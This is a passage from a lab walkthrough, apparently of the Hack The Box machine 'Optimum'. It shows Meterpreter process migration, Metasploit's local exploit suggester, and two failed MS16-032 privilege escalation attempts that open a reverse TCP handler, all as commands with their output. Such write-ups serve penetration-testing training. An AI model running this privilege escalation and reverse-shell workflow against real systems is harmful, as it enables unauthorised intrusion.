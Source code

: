 Let's migrate to a 64-bit process:

```
meterpreter > migrate 2280
[*] Migrating from 2532 to 2280...
[*] Migration completed successfully.
meterpreter > sysinfo 
Computer        : OPTIMUM
OS              : Windows 2012 R2 (Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 1
Meterpreter     : x64/windows
```

And run the module again:

```
msf post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.8 - Collecting local exploits for x64/windows...
[*] 10.10.10.8 - 10 exploit checks are being tried...
[*] Post module execution completed
```

The second run come back empty, but we can try to use the exploits from the output of the first run.

The "ms16_032_secondary_logon_handle_privesc" in Metasploit have a 64-bit target as well that we can set.

```
msf exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > exploit 

[*] Started reverse TCP handler on 10.10.14.17:4444 
[*] Writing payload file, C:\Users\kostas\Desktop\wroZljoCafka.txt...
[*] Compressing script contents...
[+] Compressed size: 3601
[*] Executing exploit script...
[+] Cleaned up C:\Users\kostas\Desktop\wroZljoCafka.txt
[*] Exploit completed, but no session was created.
```
fail #1

```
msf exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > exploit                                                                                                  
                                                                                                                                                                             
[*] Started reverse TCP handler on 10.10.14.17:4444                                                                                                                      
[-] Exploit failed: Rex::Post::Meterpreter::RequestError core_channel_open: Operation failed: Access is denied.      
```

fail #2
